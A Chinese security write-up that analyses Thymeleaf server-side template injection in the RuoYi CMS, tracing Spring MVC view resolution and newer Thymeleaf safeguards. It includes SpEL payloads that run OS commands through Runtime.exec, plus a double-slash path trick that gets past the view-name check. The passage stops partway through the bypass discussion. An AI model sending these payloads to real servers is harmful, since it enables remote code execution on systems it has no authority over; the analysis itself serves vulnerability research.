# 绕过限制：若依模板注入在高版本 Thymeleaf 中的绕过分析-先知社区

> **来源**: https://xz.aliyun.com/news/17440  
> **文章ID**: 17440

---

# 绕过限制：若依模板注入在高版本 Thymeleaf 中的绕过分析

## 前言

最近测试一个站的时候遇到一个\*\*系统的站，去网上搜了一下，还是有很多漏洞的，其中有一个Thymeleaf模板注入的漏洞

但是使用网上公开的payload是不行的，随即下起了系统的源码，开始审计学习一波

## 简单介绍

若依CMS是一款基于Java开发的开源内容管理系统（Content Management System），旨在为用户提供一个灵活、高效的网站管理平台。它通常用于企业网站、博客、资讯平台等各种类型的网站构建和内容管理。

主要特点包括：

1. **开源免费**：作为开源项目，若依CMS可以免费使用和修改，适合各类开发者和企业。
2. **模块化设计**：若依CMS采用模块化设计，用户可以根据需求自由选择和组合不同的功能模块。
3. **用户友好的界面**：提供简洁直观的操作界面，便于用户进行内容编辑、发布和管理。
4. **强大的文章管理功能**：支持多种文章类型和分类管理，使得信息发布更加高效。
5. **权限管理**：系统内置权限管理功能，可以对不同用户分配不同的访问和操作权限，提高了网站的安全性。
6. **SEO友好**：平台提供了优化SEO的功能，帮助用户提升网站在搜索引擎的排名。
7. **社区支持**：作为开源项目，若依CMS拥有活跃的社区支持，用户可以通过社区获得技术支持和分享经验。

Thymeleaf 是一个用于 Java 的现成的模板引擎，主要用于Web应用程序的视图层。它通常与 Spring 框架结合使用，但也可以在其他环境中独立运行。Thymeleaf 提供了一种自然模板的功能，允许开发者在 HTML 文件中直接使用 Java 对象，从而动态生成内容。以下是 Thymeleaf 的一些主要特性和优点：

主要特性：

1. **自然模板**：Thymeleaf 允许开发者在设计模板时直接使用标准的 HTML。这意味着开发者可以使用普通的 HTML 文件，不需要特殊的标记或语言，这方便了前端设计师和后端开发者的协作。
2. **表达式语言**：Thymeleaf 使用一种表达式语言（OGNL，Object-Graph Navigation Language），使得可以通过语法简洁地访问 Java 对象的属性和方法。
3. **多种视图解析**：除了支持标准的 HTML 模板，Thymeleaf 还支持 XML、JavaScript、CSS 和其他文本格式，使得它更加灵活。
4. **丰富的标签和属性**：Thymeleaf 提供了多种自定义标签和属性，帮助实现条件渲染、循环、格式化和国际化等功能。
5. **集成 Spring**：Thymeleaf 与 Spring 框架的集成非常紧密，可以轻松处理 Spring MVC 控制器中返回的模型数据。
6. **国际化支持**：Thymeleaf 提供国际化和本地化的支持，可以轻松地为多语言项目进行文本的管理。

## 注入原理探究

这个是一个典型的mvc结构，我们按照这个逻辑调试分析，也就是SpringMVC 视图解析过程分析

#### handler封装ModelAndView对象

我们知道这个是前后端分离的，我们还是来到DispatcherServlet#doDispatch方法，所有的request和response都会经过该方法，我们看到封装我们对象的过程

```
mv = ha.handle(processedRequest, response, mappedHandler.getHandler());

```

一路跟进



来到invokeHandlerMethod方法，代码很长，只看关键，首先new了一个ModelAndViewContainer，然后初始化 `ModelAndViewContainer`，其他都不重要，然后调用处理器方法并处理结果



跟进invokeAndHandle，调用了invokeForRequest为我们的returnValue赋值，内部是先获取参数值，然后发反射赋值



回到invokeAndHandle，调用returnValueHandlers.handleReturnValue去处理我们的返回值



handleReturnValue先挑选一个合适的处理器去处理



继续跟进handleReturnValue，重点就是为我们的mavContainer设置了viewName这个值



一路回到invokeHandlerMethod这个方法

处理完成后准备去获取我们的ModelAndView对象了

```
return getModelAndView(mavContainer, modelFactory, webRequest);
```

可以看到实例化了一个ModelAndView对象，传入我们的关键参数，也就是我们自己的输入



然后就完成了封装ModelAndView对象，回到doDispatch方法

#### 处理ModelAndView对象获取view

来到processDispatchResult方法

传入了我们的对象，准备解析

```
processDispatchResult(processedRequest, response, mappedHandler, mv, dispatchException)
```

调用了`render(mv, request, response);`准备渲染视图

render方法

获取我们的视图名称之后`view = resolveViewName(viewName, mv.getModelInternal(), locale, request);`使用resolveViewName来解析，为什么是解析这个名字

视图名称是控制器方法返回的一个逻辑名称，它需要被解析为具体的视图对象才能渲染最终的输出

可以看到有很多视图解析器是可以来解析的，循环调用



因为我的是使用tomcat搭建的环境



只有一个解析器，如果使用Spring

可以看到是很多的ThymeleafViewResolver也在其中



但是我们的逻辑的是应该在`ThymeleafViewResolver`中获取视图，实际是`ContentNegotiatingViewResolver`中已经获取到了视图

跟进`ContentNegotiatingViewResolver#resolveViewName`

其中调用getCandidateViews方法，获取所有的视图，然后看下一步，是返回最合适的



跟进getCandidateViews方法，可以看见就是循环调用解析器去解析，然后将获得的结果add进去



#### 渲染view

返回我们的view后，调用对应的

之后调用`ThymleafView#render`渲染`render`方法中又通过调用`renderFragment`完成实际的渲染工作

* 当TemplateName中不包含`::`则将`viewTemplateName`赋值给`templateName`。
* 如果包含`::`则代表是一个片段表达式，则需要解析`templateName`和`markupSelectors`。

比如当viewTemplateName为`welcome :: header`则会将welcome解析为templateName，将header解析为markupSelectors。这也是我们的payload最后为::x的原因



获取我们的模板名称后我们直接看到解析的地方

熟悉sqel表达式注入的就很清楚，这有猫腻



这是我们正常解析spel的代码例子，这里也是这样的

```
public class test_Template {
    public static void main(String[] args) {
        SpelExpressionParser spelExpressionParser =new SpelExpressionParser();
        TemplateParserContext templateParserContext =new TemplateParserContext();
        Expression expression = spelExpressionParser.parseExpression("The random number is #{T(java.lang.Math).random()} and the 1+1=#{1+1}",templateParserContext);
        String exp =expression.getValue(String.class);
        System.out.println(exp);
    }
}

```

但是解析的逻辑还是不一样的，我们具体看看，可以看到是把我们的输入放到preprocess方法进行预处理，然后把结果再次解析



跟进preprocess方法，关键是符合正则匹配，就会把我们的



把我们的String先截取留下spel表达式部分

然后StandardExpressionParser.parseExpression再去解析

```
~{user/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()}__::.x/welcome}

${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()}

经过解析变为真正的spel表达式
```

expression.execute执行表达式

这也是我们漏洞的原因

## 测试过程

首先我们需要清楚这个模板注入的特征，那就返回值或者我们的路径是可以控制的路由

首先是参数型

src\main\java\com
uoyi\web\controller\monitor中有很多都是可以控制的返回值



可以看见可以传入String类型的参数

但是正常的payload确实不行

发现是Thymeleaf 3.0.12的版本，需要一些绕过的手法

## 绕过探究

#### 版本差异

这里先模拟一个类似的情况

```
@GetMapping("/doc/{document}")
    public void getDocument(@PathVariable String document) {
        log.info("Retrieving " + document);
        //returns void, so view name is taken from URI
    }
```

然后使用正常的paylaod去尝试

```
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::.x
```



直接来到ThymylefView#renderFragment方法

我们来看一下区别

##### checkViewNameNotInRequest

新版本



老版本


多了一个checkViewNameNotInRequest

内部逻辑如下

```
public static void checkViewNameNotInRequest(final String viewName, final HttpServletRequest request) {

    final String vn = StringUtils.pack(viewName);

    final String requestURI = StringUtils.pack(UriEscape.unescapeUriPath(request.getRequestURI()));

    boolean found = (requestURI != null && requestURI.contains(vn));
    if (!found) {
        final Enumeration<String> paramNames = request.getParameterNames();
        String[] paramValues;
        String paramValue;
        while (!found && paramNames.hasMoreElements()) {
            paramValues = request.getParameterValues(paramNames.nextElement());
            for (int i = 0; !found && i < paramValues.length; i++) {
                paramValue = StringUtils.pack(UriEscape.unescapeUriQueryParam(paramValues[i]));
                if (paramValue.contains(vn)) {
                    found = true;
                }
            }
        }
    }

    if (found) {
        throw new TemplateProcessingException(
                "View name is an executable expression, and it is present in a literal manner in " +
                "request path or parameters, which is forbidden for security reasons.");
    }

}
```

pack方法就是把输入转为小写，这样导致在 requestURI.contains(vn)判断的时候为真，

直接抛出异常

##### containsSpELInstantiationOrStatic

然后还有个差异就是在解析表达式的时候

具体就不跟了，调用栈如下

```
containsSpELInstantiationOrStatic:43, SpringStandardExpressionUtils (org.thymeleaf.spring5.util)
getExpression:367, SPELVariableExpressionEvaluator (org.thymeleaf.spring5.expression)
obtainComputedSpelExpression:315, SPELVariableExpressionEvaluator (org.thymeleaf.spring5.expression)
evaluate:182, SPELVariableExpressionEvaluator (org.thymeleaf.spring5.expression)
executeVariableExpression:166, VariableExpression (org.thymeleaf.standard.expression)
executeSimple:66, SimpleExpression (org.thymeleaf.standard.expression)
execute:109, Expression (org.thymeleaf.standard.expression)
execute:138, Expression (org.thymeleaf.standard.expression)
preprocess:91, StandardExpressionPreprocessor (org.thymeleaf.standard.expression)
parseExpression:120, StandardExpressionParser (org.thymeleaf.standard.expression)
parseExpression:62, StandardExpressionParser (org.thymeleaf.standard.expression)
parseExpression:44, StandardExpressionParser (org.thymeleaf.standard.expression)
```

在containsSpELInstantiationOrStatic方法

```
/*
         * Checks whether the expression contains instantiation of objects ("new SomeClass") or makes use of
         * static methods ("T(SomeClass)") as both are forbidden in certain contexts in restricted mode.
         */
public static boolean containsSpELInstantiationOrStatic(String expression) {
        int explen = expression.length();
        int n = explen;
        int ni = 0;
        int si = -1;

        while(n-- != 0) {
            char c = expression.charAt(n);
            if (ni >= NEW_LEN || c != NEW_ARRAY[ni] || ni <= 0 && (n + 1 >= explen || !Character.isWhitespace(expression.charAt(n + 1)))) {
                if (ni > 0) {
                    n += ni;
                    ni = 0;
                    if (si < n) {
                        si = -1;
                    }
                } else {
                    ni = 0;
                    if (c == ')') {
                        si = n;
                    } else {
                        if (si > n && c == '(' && n - 1 >= 0 && expression.charAt(n - 1) == 'T' && (n - 1 == 0 || !Character.isJavaIdentifierPart(expression.charAt(n - 2)))) {
                            return true;
                        }

                        if (si > n && !Character.isJavaIdentifierPart(c) && c != '.') {
                            si = -1;
                        }
                    }
                }
            } else {
                ++ni;
                if (ni == NEW_LEN && (n == 0 || !Character.isJavaIdentifierPart(expression.charAt(n - 1)))) {
                    return true;
                }
            }
        }

        return false;
    }
```

看方法的注释就能明白是为了防止使用T字符实例化对象的

简单看一下逻辑，首先不能出现

1. 对象的实例化（例如 `"new SomeClass"`）。
2. 静态方法的调用（例如 `"T(SomeClass)"`）。
3. 从表达式的末尾开始向前遍历每个字符。
4. 检查当前字符是否与"new"的逆序字符串`NEW_ARRAY`中的字符匹配，并且确保"new"后面有空格或字符串结尾，从而确定是否为一个独立的"new"关键字。
5. 如果找到完整的"new"关键字，并且确保它前面不是Java标识符的一部分，则返回`true`，表示找到了对象实例化。
6. 检查是否遇到了字符’)'，如果是，则更新`si`变量。
7. 如果当前字符是’(‘，并且前一个字符是’T’，并且’T’前面不是Java标识符的一部分，则返回`true`，表示找到了静态方法调用的表达式。
8. 如果在遍历过程中遇到不是Java标识符部分的字符，并且之前遇到了’)'，则重置`si`变量。

也就是不能有new，不能出现T(

#### 绕过checkViewNameNotInRequest

如果要实现注入，那必须就不能相同，只能从viewName和request.getRequestURI()的获取入手了，找找他们的解析差异

先对viewName溯源

那就得回到解析我们的view的地方，也就是在doDispatch获取完hadler后的处理

具体的代码在

```
mv = ha.handle(processedRequest, response, mappedHandler.getHandler());

if (asyncManager.isConcurrentHandlingStarted()) {
    return;
}

applyDefaultViewName(processedRequest, mv);
mappedHandler.applyPostHandle(processedRequest, response, mv);
```

其中赋值是在applyDefaultViewName方法

```
private void applyDefaultViewName(HttpServletRequest request, @Nullable ModelAndView mv) throws Exception {
    if (mv != null && !mv.hasView()) {
       String defaultViewName = getDefaultViewName(request);
       if (defaultViewName != null) {
          mv.setViewName(defaultViewName);
       }
    }
}
```

跟进getDefaultViewName

```
protected String getDefaultViewName(HttpServletRequest request) throws Exception {
    return (this.viewNameTranslator != null ? this.viewNameTranslator.getViewName(request) : null);
}
```

跟进getViewName

```
public String getViewName(HttpServletRequest request) {
    String path = ServletRequestPathUtils.getCachedPathValue(request);
    return (this.prefix + transformPath(path) + this.suffix);
}
```

这里看到有个对path的处理逻辑

获取到的path值如下

`/doc/__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x`然后看看transformPath方法有没有利用的可能

```
protected String transformPath(String lookupPath) {
    String path = lookupPath;
    if (this.stripLeadingSlash && path.startsWith(SLASH)) {
       path = path.substring(1);
    }
    if (this.stripTrailingSlash && path.endsWith(SLASH)) {
       path = path.substring(0, path.length() - 1);
    }
    if (this.stripExtension) {
       path = StringUtils.stripFilenameExtension(path);
    }
    if (!SLASH.equals(this.separator)) {
       path = StringUtils.replace(path, SLASH, this.separator);
    }
    return path;
}
```

就是做一些标准化的处理，除去前面和后面的/

我们再回到checkViewNameNotInRequest方法看一下取值的区别



发现requestURI就是只要是doc后面的全部都拿走了，而vn是会做标准化处理

所以这里我选择这样绕过

`doc//__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x`

加两个/这样标准化处理的时候会删掉前面的一个/，然后requestURI又不会

具体看如下



可以看见已经不满足

```
